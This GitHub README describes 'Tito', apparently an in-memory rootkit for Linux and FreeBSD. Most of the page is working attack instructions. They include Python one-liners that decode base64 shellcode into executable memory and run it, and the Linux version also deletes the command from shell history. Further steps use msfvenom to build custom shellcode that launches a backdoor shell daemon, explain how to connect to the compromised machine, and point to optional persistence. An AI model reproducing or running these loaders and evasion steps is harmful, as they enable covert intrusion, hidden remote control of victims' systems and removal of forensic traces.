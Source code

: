 # Tito
A complete In-Memory Rootkit For FreeBSD. On Linux the shell is completely in memory with optional on-disk persistance using an injected library.  

<h2>From Tito to Stalin:</h2>

"Stop sending people to kill me. We’ve already captured five of them, one of them with a bomb and another with a rifle. If you don’t stop sending killers, I’ll send one to Moscow, and I won’t have to send a second."

<center>
<img src="https://en.wikipedia.org/wiki/Josip_Broz_Tito#/media/File:Josip_Broz_Tito_uniform_portrait.jpg"></center>

You can run the entire rootkit from the Linux command-line like so:

```
python3 -c 'import base64, mmap, ctypes; encoded_shellcode = "SDHJSIHp9////0iNBe////9Iu6ajGtSlB5bkSDFYJ0gt+P///+L07hs1tsxpuZfOo4OE8VjEgs6OeYD7VX75pqMa+81o+4GJ03LnlnW5rfXrX5jpKuDUiJE1vdZv8uTw9E6KzzzO66OjGtSlB5bk"; shellcode = base64.b64decode(encoded_shellcode); mem = mmap.mmap(-1, len(shellcode), mmap.MAP_PRIVATE | mmap.MAP_ANONYMOUS, mmap.PROT_WRITE | mmap.PROT_READ | mmap.PROT_EXEC); mem.write(shellcode); addr = ctypes.addressof(ctypes.c_char.from_buffer(mem)); shell_func = ctypes.CFUNCTYPE(None)(addr); print("... and I won’t have to send a second."); shell_func()' && history -d $(history | awk 'END { print $1 }')
```

With FreeBSD, it will depend on the version of python installed. If you have python3.11 you can just use this:

```
python3.11 -c 'import base64, mmap, ctypes; encoded_shellcode = "SDHJSIHp+P///0iNBe////9Iu67h2fdth+YDSDFYJ0gt+P///+L05tALH0+H5gOBibaaCKiWa53Sq9gZ7pJsgaiKvyjLqi7Y0ffEQu6Va8rhhqU6z2/l5tAZv+5P3Qyr4dn3bYfmAw=="; shellcode = base64.b64decode(encoded_shellcode); mem = mmap.mmap(-1, len(shellcode), mmap.MAP_PRIVATE | mmap.MAP_ANONYMOUS, mmap.PROT_WRITE | mmap.PROT_READ | mmap.PROT_EXEC); mem.write(shellcode); addr = ctypes.addressof(ctypes.c_char.from_buffer(mem)); shell_func = ctypes.CFUNCTYPE(None)(addr); print("...and I will not have to send a second."); shell_func()' 2>/dev/null
```

The path to binary here in these examples is hardcoded, but you may go into the ISHELL-v0.3 folder and type 'make linux' or 'make bsd' to build ish and ishd. Then you can make your own shellcode like this:

```
msfvenom -p linux/x64/exec CMD=/path/to/ishd -f c -b "\x00\x0a\x0d" > shellcode.txt
```

You can parse out only the shellcode and base64 encode it like this:

```
grep '"' shellcode.txt | tr "\n" " " | sed -e 's/\" \"//g;s/\"//g;s/;//g' | base64
```

Then you may run ish with the ip of the device the rootkit was ran on to connect.

Currently tested on x86_64 Debian Trixie and FreeBSD 14.1

People from HardenedBSD have reported the shell here will also work with libhijack to add persistance. That utility will load a Shared Library in memory making this a complete In-Memory rootkit for BSD if you choose. 

Previously I did not include persistance with Linux as 1. - Persistance would require writing to disk and 2. - Many servers remain up thousands of days without a reboot making it pointless. In the optional-persistnace you may now find an additional README file to deploy this feature if you choose.
